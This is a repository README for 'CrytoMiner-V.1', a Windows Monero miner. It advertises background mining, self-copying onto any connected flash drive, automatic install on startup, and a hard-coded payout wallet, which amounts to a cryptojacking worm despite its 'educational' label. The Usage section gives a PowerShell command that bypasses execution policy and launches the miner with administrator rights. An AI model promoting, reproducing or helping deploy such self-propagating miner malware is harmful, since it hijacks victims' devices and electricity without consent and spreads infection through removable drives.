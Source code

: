 # Project Name
**CrytoMiner-V.1**

## Disclaimer

⚠️ **WARNING**: This software is provided as-is with absolutely **no guarantee of safety or security**. Downloading, installing, or using this software is done entirely **at your own risk**. By proceeding, you acknowledge and accept that the developer is **not responsible** for any damage to your device, data loss, or security risks. Please be cautious and understand the potential risks before downloading or running this project.

## Overview

**CrytoMiner-V.1** is designed as an experimental tool to demonstrate the process of **Monero (XMR) mining** and various techniques in programmatic automation. It explores how blockchain mining can be executed on standard devices and includes features that automatically propagate the program across connected storage devices. This project is intended for educational purposes to understand how automated deployment works in the context of computing and file propagation.

### Features
1. **Crypto Mining**: Mines Monero (XMR) in the background.
2. **Automatic Propagation**: Copies itself onto any connected flash drive and automatically installs on startup.
3. **Fixed Wallet**: The wallet address is hard-coded and cannot be changed.

## Installation

1. Ensure you have A computer with Windows OS.
2. Clone the repository.
3. Follow instructions carefully to install.

## Usage
```
powershell -Command "Start-Process powershell -ArgumentList '-ExecutionPolicy Bypass -File \"miner.ps1\"' -Verb RunAs"


